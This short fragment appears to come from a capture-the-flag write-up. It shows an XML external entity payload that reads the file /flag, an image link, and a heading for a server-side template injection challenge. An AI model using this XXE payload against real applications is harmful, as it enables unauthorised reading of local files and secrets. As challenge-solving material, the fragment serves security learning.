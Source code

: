 ```xml
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
  <Ki1ro>&xxe;</Ki1ro>
</creds>
```
![image.png](./images/20231018_0002109288.png)
# easy ssti